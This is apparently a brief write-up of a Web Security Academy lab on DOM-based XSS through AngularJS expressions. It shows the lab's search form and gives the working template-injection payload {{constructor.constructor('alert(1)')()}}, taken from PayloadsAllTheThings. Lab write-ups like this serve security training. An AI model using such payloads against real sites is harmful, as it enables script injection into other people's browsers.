

WSA: DOM XSS in AngularJS expression
Table of Contents
Challenge
You can check the lab out: here
Having to deal with AngularJS, we know that we should pay special
attention to all elements with a ng-sth attribute, since that is
linked to Angular.
There is a search functionality, a good starting place, and the text which we supply gets shown in the source code:

Figure 1: Sample Input
Vulnerable part
We can verify that the website uses angular:
<body ng-app="" class="ng-scope">
<section class="search"> <form action="/" method="GET" class="ng-pristine ng-valid"> <input type="text" placeholder="Search the blog..." name="search"> <button type="submit" class="button">Search</button> </form> </section>
Solution
After playing around, testing {{alert(1)}} and similar naive payloads
:P, then checking out the documentation for ways to effectively use
{{}} to our advantage, the solution was given by PayloadsAllTheThings.
{{constructor.constructor('alert(1)')()}}
Note on Angular
For more info check out:
Summary
And another one gone, and another one gone… Another one bites the dust